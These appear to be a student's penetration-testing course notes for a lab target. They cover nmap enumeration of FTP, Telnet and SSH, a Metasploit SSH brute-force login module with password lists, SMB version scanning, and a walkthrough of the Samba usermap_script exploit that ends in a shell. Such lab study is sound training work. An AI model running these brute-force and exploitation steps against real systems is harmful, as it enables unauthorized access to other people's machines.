# Ftp enumeration 

Ls -al /usr/share/nmap/scripts
Ls -al /usr/share/nmap/scripts \| grep ftp
Nmap -p 21 -sS --script ftp-anpn "ip address"



Nmap -script ftp-anon , ftp-syst , ftp-vsftpd-backdoor , tftp-enum , tftp-version (ip address)

Can add only 1 script or all at once

Ftp 192.168.xx.xx \*\*


# "!" to exit

# Telnet enumeration 

Ls -al /usr/share/nmap/scripts \| grep telnet
Nmap -script telnet-encryption , telnet-ntlm-info "ip address"



Nmap -p 21 -sS --script telnet-encryption "ip address"



Telnet "ip address"





# 
# 
# SSH ENUMERATION

Ls -al /usr/share/nmap/scripts \| grep ssh



Why ssh is secure ? Because it is encrypted

nmap -script ssh2-enum-algos,ssh-auth-methods,ssh-hostkey,ssh-publickey-acceptance,ssh-run,sshv1 192.168.110.132



ssh -oHostKeyAlgorithms=+ssh-dss msfadmin@192.168.110.132

Will ask for password



Pwd
Ls
exit

Private key : -oHostKeyAlgorithms=+ssh-dss
Search private key github

# Msfconsole



Search



Ms6 \> search ssh



Use 72 or auxiliary/scanner/ssh/ssh_login

Show options



All the options which says required "yes"
Make them true

set ANONYMOUS_LOGIN true



RHOSTS - remote host
LHOSTS local host

Set RHOSTS 192.168.xx.xx
Set STOP_ON_SUCCESS true (so that brute force stops when credentials are found)
Set VERBOSE true



Set USER_FILE/home/kali/username
Set PASS_FILE/home/kali/password

Show options
Run
Sessions -i 1

# Smb port scan

## STEP 1

Msfconsole


Search

Search smb


Use 388 or auxiliary/scanner/smb/smb_version
Show options



Set RHOSTS 192.xx.xx
Run


Gives the victims version of os

## STEP 2 

Exploit after knowing the os of victim

Samba 3.0.2.0 debian search on google
or
Open Another terminal

searchsploit Samba 3.0.20-Debain

Gives the exploit options for this os
We will choose the second option since our os is 3.0.20

Again go to the first terminal
Search samba


Use 15 or exploit/multi/samba/usermap_script


Show options


Set RHOSTS 192.xx.xxx


Run/exploit
Ls
Whoami


Homework
Do exploit for smtp
Throiugh msf conslole

